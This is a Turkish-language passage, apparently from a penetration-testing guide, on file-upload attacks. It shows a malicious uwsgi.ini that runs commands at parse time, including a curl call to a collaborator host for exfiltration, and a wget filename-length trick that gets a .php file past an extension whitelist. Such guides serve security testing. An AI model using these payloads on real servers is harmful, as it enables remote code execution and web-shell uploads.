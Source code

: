 Aşağıdaki örnekte, çeşitli şemaları gösteren zararlı bir `uwsgi.ini` dosyası düşünün:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
Yükleme işlemi, yapılandırma dosyasının ayrıştırılması sırasında gerçekleşir. Yapılandırmanın etkinleştirilmesi ve ayrıştırılması için, uWSGI süreci ya yeniden başlatılmalı (potansiyel olarak bir çökme sonrası veya bir Hizmet Reddi saldırısı nedeniyle) ya da dosya otomatik yeniden yükleme ayarına getirilmelidir. Otomatik yeniden yükleme özelliği, etkinleştirildiğinde, değişiklikleri tespit ettiğinde dosyayı belirli aralıklarla yeniden yükler.

uWSGI'nin yapılandırma dosyası ayrıştırmasının gevşek doğasını anlamak çok önemlidir. Özellikle, tartışılan yük, bir ikili dosyaya (örneğin bir resim veya PDF) yerleştirilebilir ve potansiyel istismar kapsamını daha da genişletebilir.

## **wget Dosya Yükleme/SSRF Hilesi**

Bazı durumlarda, bir sunucunun **`wget`** kullanarak **dosya indirdiğini** ve **URL'yi** **belirtebileceğinizi** görebilirsiniz. Bu durumlarda, kod indirilen dosyaların uzantısının yalnızca izin verilen dosyaların indirileceğini sağlamak için bir beyaz liste içinde olup olmadığını kontrol ediyor olabilir. Ancak, **bu kontrol atlatılabilir.**\
**Linux**'ta bir **dosya adı** için **maksimum** uzunluk **255** karakterdir, ancak **wget** dosya adlarını **236** karakterle kısıtlar. **"A"\*232+".php"+".gif"** adında bir dosya **indirebilirsiniz**, bu dosya adı **kontrolü atlatacaktır** (bu örnekte **".gif"** geçerli bir uzantıdır) ancak `wget` dosyayı **"A"\*232+".php"** olarak **yeniden adlandıracaktır**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

```